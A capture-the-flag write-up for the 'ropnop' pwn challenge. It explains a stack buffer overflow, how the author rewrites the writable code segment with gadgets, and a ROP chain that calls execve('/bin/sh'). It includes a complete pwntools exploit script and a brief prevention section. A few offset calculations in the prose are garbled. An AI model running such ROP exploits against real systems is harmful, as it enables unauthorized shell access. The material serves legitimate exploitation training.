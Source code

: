 # First thoughts:
The program starts with showing the line e.g. `[defusing returns] start: 0x55734580a000 - end: 0x55734580b375` and then a user input which does nothing. After looking at the provided source code I saw that like the name of the challenge implies a ROP attack is expected. For that reason a function `gadget_shop` is provided which creates very useful assembly snippets to make this happen. The problem is that the function `ropnop` gets called which first turn an interval of the memory readable, writable and executable and replaces each `ret` assembly to an `nop` assembly. Unluckily the `gadget_shop` function is inside this interval so the gadgets are almost useless. But luckily the memory interval isn't set to non writable back, so I can overwrite it too.
The input is read with the `read` function which has a buffer length of 0x1337 bytes provided. But if I look at the disassembly the buffer length is much smaller so a BufferOverflow is possible. 
With the program checksec I noticed that there are no stack canaries provided so I don't have to deal with them.
The goal will be to make a `syscall` with the rsi and rdx register set to 0, the rax set to 0x3b this ensures that the `syscall` command does `execve` so it executes a program to which the path is inside rdi. The path I want is `/bin/sh` so a shell gets executed.

# The Exploit:
First I created a small python script with pwntools. The script waits for the string `[defusing returns] start ` and saves the start and end address.
Then I needed to find out the offset of the buffer start and the return address which I want to overwrite. I did this with the `cyclic(0xff)` function. The `cylic` function creates a sequence of chars generated by pwntools. This sequence is special as every part can be recognized by only 4 chars. I attach gdb to the program and wait until an SegmentationFault. There gdb tells me to what address the program tried to jump, it turns out to be `gaaa`. So now I know if I replace `cyclic(0xff)` by `"A"*cyclic_find("gaaa")` then the next thing overwrites the return address. 
Now I could create a first payload but again because of the risk of an unaligned stack I need to get it aligned by a simple return gadget e.g. 0x55734580B374 (0x55734580a000-0x55734580B374 = -0x1374).
Like I said the plan is to overwrite the writable memory space with the help of the `read` function from main. The `read` function gets its buffer from the rsi register. With the help of the program ROPgadget and the command `ROPgadget  --all --binary ropnop` I can get all gadgets found, so duplicates are shown too. This is important because the ropnop program has gadgets which are overwritten on run time. I decided to use a gadget which does `pop rsi; pop r15; ret` because it is the only usable gadget which does `pop rsi`(e.g. 0x55734580a000-0x55734580B351 = -0x1351). I the had to think about where I wanted to write to. I decided thought that I needed to use the `printf` instruction later so I started my buffer on the instruction after it (e.g.  0x55734580a000-0x55734580B234 = -0x1234). I later saw that I didn't need this but it doesn't really matter where I put them. 
So the payload consists of the pop address and then the buffer address but because my pop address has 2 pops before it returns I also write a Padding of 8 bytes to the stack which gets poped to r15.
Now I need to call the `read` instruction by jumping to it (e.g. 0x55734580a000-0x93953575662282 = -12ca).
This second `read` instruction gets send this input: `p8(0xc3) + POP_RAX_RET_COMMAND + POP_RSI_RET_COMMAND + POP_RDX_RET_COMMAND + BINSH_COMMAND + p8(0x90)*0x9f + p8(0xc3)`.
It first sets a `ret`instruction after the `printf`, `pop rax; ret;`, `pop rsi; ret;`, `pop rdx; ret;`, `/bin/sh\x00` and finally a `nop` slide with a `ret` in the end. With this I have all the necessary ropgadgets at my disposal so I can write the rest of my first payload. I also calculated the address of the gadgets by adding the number of bytes before from the buffer start.
To make the final call, I call my `pop rax; ret;` command with 0x3b for `execve`, then `pop rdi; ret;` with the address of `/bin/sh\x00`. I haven't wrote t his command my self, I found it with ROPgadgets. Then I called `pop rsi; ret;` and  `pop rdx; ret;` with both 0 and finally called the `syscall` instruction also found with ROPgadgets.
The result looks like this:

```
from pwn import *

p = process("./ropnop")
#p = remote("hax1.allesctf.net", 9300)

p.recvuntil("[defusing returns] start: ")
START = int(p.recvuntil(" - end: ").replace(" - end: ", ""), 16)
STOP = int(p.recvline(), 16)

RET = START + 0x1374

NEW_RET = START + 0x1234

EDX_READ = START + 0x12ca

POP_RDI_RET = START + 0x1353
POP_RSI_POP_R15_RET = START + 0x1351
SYSCALL = START + 0x11e4

log.info("Leaked START value 0x{:x}".format(START))
log.info("Leaked STOP value 0x{:x}".format(STOP))
log.info("Leaked NEW_RET value 0x{:x}".format(NEW_RET))
log.info("Leaked RET value 0x{:x}".format(RET))
log.info("Leaked POP_RDI_RET value 0x{:x}".format(POP_RDI_RET))
log.info("Leaked POP_RSI_POP_R15_RET value 0x{:x}".format(POP_RSI_POP_R15_RET))
log.info("Leaked EDX_READ value 0x{:x}".format(EDX_READ))
log.info("Leaked SYSCALL value 0x{:x}".format(SYSCALL))

raw_input("attach gdb")

POP_RAX_RET = START + 0x1235
POP_RSI_RET = START + 0x1237
POP_RDX_RET = START + 0x1239
BINSH = START + 0x123b

PADDING = "A"*cyclic_find("gaaa")
PADDING2 = "B"*8
p.sendline(PADDING + p64(RET) + p64(RET) + p64(POP_RSI_POP_R15_RET) + p64(NEW_RET) + PADDING2 + p64(RET) + p64(EDX_READ) + p64(RET) + p64(POP_RAX_RET) + p64(0x3b) + p64(RET) + p64(RET) + p64(POP_RDI_RET) + p64(BINSH) + p64(RET) + p64(RET) + p64(POP_RSI_RET) + p64(0x0) + p64(RET) + p64(RET) + p64(POP_RDX_RET) + p64(0x0) + p64(RET) + p64(RET) + p64(SYSCALL))
POP_RAX_RET_COMMAND = p8(0x58) + p8(0xc3)
POP_RSI_RET_COMMAND = p8(0x5e) + p8(0xc3)
POP_RDX_RET_COMMAND = p8(0x5a) + p8(0xc3)
BINSH_COMMAND = "/bin/sh\x00"

log.info("Leaked POP_RAX_RET value 0x{:x}".format(POP_RAX_RET))
log.info("Leaked POP_RSI_RET value 0x{:x}".format(POP_RSI_RET))
log.info("Leaked POP_RDX_RET value 0x{:x}".format(POP_RDX_RET))

p.sendline(p8(0xc3) + POP_RAX_RET_COMMAND + POP_RSI_RET_COMMAND + POP_RDX_RET_COMMAND + BINSH_COMMAND + p8(0x90)*0x9f + p8(0xc3))

p.interactive()

```
Now that I got a bash just execute `cat flag` and the flag is printed out.
To get the real flag just change the attached program to the server and change the flag to the real one from ropnop and execute.

# Prevention:
The problem is that the user input is not sanitized.
If the input got sanitized and also it is a very dumb idea to make the the code segment writable and even if someone really wants to do this because he wants to decipher his own program then the segment should be set to non writable afterwards.
